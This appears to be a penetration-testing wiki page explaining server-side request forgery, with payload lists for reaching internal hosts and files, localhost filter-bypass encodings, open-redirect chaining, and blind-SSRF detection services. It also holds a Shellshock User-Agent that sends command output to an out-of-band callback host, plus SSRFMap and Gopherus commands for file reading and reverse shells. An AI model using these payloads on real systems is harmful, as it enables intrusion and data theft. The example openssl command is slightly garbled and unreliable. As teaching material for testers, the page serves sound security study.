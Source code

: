 # SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

{% hint style="info" %}
SSRF is to [file inclusion](file-inclusion/) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.
{% endhint %}

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.&#x20;

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

{% tabs %}
{% tab title="Blacklist input filters" %}
Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :&#x20;

<pre><code>http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
<strong>http://2130706433 # Decimal version of localhost
</strong>http://0x7f000001/ # Hexadecimal version of localhost
</code></pre>

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

{% hint style="info" %}
The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)
{% endhint %}
{% endtab %}

{% tab title="Whitelist input filters" %}
## Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :&#x20;

* Using the `@` character in a URL like this :&#x20;
  * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :&#x20;
  * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :&#x20;
  * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.



## [ORED (Open Redirect)](ssrf.md#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](ssrf.md#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

<figure><img src="../../.gitbook/assets/SSRF.png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

### Blind SSRF vulnerabilities <a href="#blind-ssrf-vulnerabilities" id="blind-ssrf-vulnerabilities"></a>

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.&#x20;

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

{% hint style="info" %}
An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.
{% endhint %}

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to **exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field**. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.

<pre class="language-bash"><code class="lang-bash"># using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles
<strong>
</strong><strong># using Gopherus
</strong>gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
</code></pre>

## Resources

{% embed url="https://portswigger.net/web-security/ssrf" %}

{% embed url="https://portswigger.net/web-security/ssrf/blind" %}

{% embed url="https://owasp.org/www-community/attacks/Server_Side_Request_Forgery" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" %}
